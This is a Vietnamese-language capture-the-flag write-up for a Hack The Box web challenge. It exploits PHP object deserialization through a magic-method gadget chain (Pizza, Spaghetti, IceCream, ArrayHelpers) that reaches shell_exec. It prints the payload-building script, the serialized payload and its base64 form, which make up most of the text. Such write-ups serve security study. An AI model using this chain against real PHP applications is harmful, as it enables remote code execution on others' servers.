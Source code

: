 ![alt text](image.png)
![alt text](image-1.png)
![alt text](image-2.png)
## Thu thâp
Đăng ký tài khoản để truy cập vào trang web 
![alt text](image-3.png)
![alt text](image-4.png)
![alt text](image-5.png)
Giải mã base64 kết quả sẽ là một chuỗi văn bản có dạng PHP serialization (mã hóa đối tượng của PHP)
![alt text](image-6.png)
## Đọc source code
Flag nằm trong tệp có tên được tạo ngẫu nhiên*_flag.txxt 
![alt text](image-7.png)
Dữ liệu gửi theo phương thức POST là data không được lọc trước khi được lưu vào CSDL 
Tệp source code có thư mục Model định nghĩa lớp PHP cho các đối tượng Pizza , Spaghetti , IceCream . Mỗi đối tượng định nghĩa một hàm 
Pizza __destruct() ;
Spaghetti _get();
IceCream __invoke();
Mỗi hàm này đều thuộc về một tập hợp các hàm lớp đặc biệt gọi là phương thức Magic (Magic Methods)
__destruct() được gọi khi đối tượng bị xóa khỏi bộ nhớ 
__get() được gọi khi 1 tham số không tồn tại của đối tượng đang cố gắng được gọi
__invoke() được gọi khi người dùng cố gắng thực thi đối tượng như 1 phương thức .
Từ index.php rằng dữ liệu trong yêu cầu bài đăng chỉ đơn giản là mã hóa base64 của đối tượng được chọn như tuần tự hóa , được khởi tạo bằng NULL cho mọi tham số .
Hai điều quan trọng cần lưu :
+ order.php
+ Helpers/ArrayHelpers.php
Đối với order.php 
 
Lấy dữ liệu gửi qua yêu cầu , giải mã dữ liệu đó rồi hủy tuần tự hóa dữ liệu đó , do đó tạo ra đối tượng nếu tìm thấy dữ liệu khớp chính xác .
Thay vào đó , phương thức sau chỉ mở rộng lớp ArrayIterator và định nghĩa một hành vi mới cho phương thức current() , trong đó một hàm gọi lại được gọi , thiết lập giá trị hiện tại thu được không qua quá trình lặp làm tham số .
```bash
<?php
namespace Helpers{
    use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator
	{
		public $callback;

		public function current()
		{
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			var_dump($debug);
			return $value;
		}
	}
}
```

 
```bash
<?php
class IceCream
{
  public $flavors;
  public $topping;

  public function __invoke()
  {
    foreach ($this->flavors as $flavor) {
      echo $flavor;
    }
  }
}

class Pizza
{
  public $price;
  public $cheese;
  public $size;

  public function __destruct()
  {
    echo $this->size->what;
  }
}

class Spaghetti
{
  public $sauce;
  public $noodles;
  public $portion;

  public function __get($tomato)
  {
      ($this->sauce)();
  }
}
```
Ý tưởng là khai thác call_user_func để thực thi shell_exec để lấy cờ, nhưng làm sao chúng ta có thể đến đó? Chúng ta biết rằng trong order.php, chúng ta hủy tuần tự hóa đối tượng quảng cáo lấy từ yêu cầu đăng, đối tượng này sẽ bị hủy ở cuối tập lệnh. Đến đây, có lẽ bạn đã đoán ra rồi, chúng ta cần phải đặt một chiếc Pizza!
Bây giờ chúng ta biết rằng bằng cách gửi yêu cầu bài đăng yêu cầu đối tượng Pizza, phương thức __destroy() sẽ được gọi, phương thức này sẽ chỉ thực hiện echo $this->size->what . Mã giả định rằng biến size là một đối tượng có tham số name what . Sau đó, chúng ta nhớ rằng phương thức __get() sẽ được gọi khi tham chiếu đến một tham số không tồn tại của lớp. Ý tưởng sau đó là đặt biến size thành một thể hiện của Spaghetti, do đó cho phép phương thức __get() chạy. Theo cùng cách tiếp cận, nếu chúng ta đặt biến sauce của lớp Spaghetti thành một thể hiện của IceCream, phương thức __invoke() sẽ được gọi, vì phương thức __get() sẽ cố gắng gọi thể hiện của IceCream dưới dạng một hàm. Cuối cùng, ý tưởng là đặt flavor thành một thể hiện của ArrayHelpers, đặt hàm gọi lại thành shell_exec , đồng thời cung cấp cho hàm tạo của nó một mảng chứa một chuỗi sẽ là lệnh của chúng ta để thực thi. Vì chúng ta không biết tên cờ, chúng ta có thể chỉ cần sử dụng mẹo này:
```bash
cat /*flag* > ./index.php
```
Nếu mọi thứ hoạt động tốt, khi mở trang chủ của ứng dụng web, chúng ta sẽ nhận được cờ. Để nhanh chóng nhận được tải trọng, tôi đã tạo một tập lệnh php:
```bash
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
$pizza->size = $spaghetti;

echo base64_encode(serialize($pizza));
```
## Khai thác 
Một lần nữa sử dụng burpsuite, chúng ta có thể sửa đổi dữ liệu yêu cầu đăng và kiểm tra tải trọng của mình, nhưng thật không may là không hiệu quả. Vâng, không hoàn toàn. Vấn đề là unserialize không thể tìm thấy lớp tương ứng cho ArrayHelpers, điều này xảy ra vì nó được gói bên trong không gian tên "Helpers".
Kịch bản làm việc cuối cùng như sau:
```bash
<?php
class ArrayHelpers extends ArrayIterator
{
	public $callback = "shell_exec";
}

class Pizza
{
	public $price;
	public $cheese;
	public $size;

}
	
class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;
    
}

class IceCream
{
	public $flavors;
	public $topping;
}


$cmd = array(
	0 => "cat /*flag* > ./index.php"
	);

$pizza = new Pizza();
$spaghetti = new Spaghetti();
$icecream = new IceCream();
$icecream->flavors = new ArrayHelpers($cmd);
$spaghetti->sauce = $icecream;
$pizza->size = $spaghetti;

$my_payload = serialize($pizza);
$my_payload = str_replace('12:"ArrayHelpers"', '21:"\Helpers\ArrayHelpers"', $my_payload);
echo base64_encode($my_payload);
```

Tải trọng 
```bash
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:21:"\Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:25:"cat /*flag* > ./index.php";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}
```

Tải trọng mã hóa base64:

```bash
Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjE6IlxIZWxwZXJzXEFycmF5SGVscGVycyI6NDp7aTow O2k6MDtpOjE7YToxOntpOjA7czoyNToiY2F0IC8qZmxhZyogPiAuL2luZGV4LnBocCI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6MTA6InNoZWxsX2V4ZWMiO31pOjM7Tjt9czo3OiJ0b3BwaW5nIjtOO31zOjc6Im5vb2RsZXMiO047czo3OiJwb3J0aW9uIjtOO319
```

![alt text](image-9.png)
![alt text](image-10.png)
![alt text](image-11.png)
https://www.hackthebox.com/achievement/challenge/2106021/770
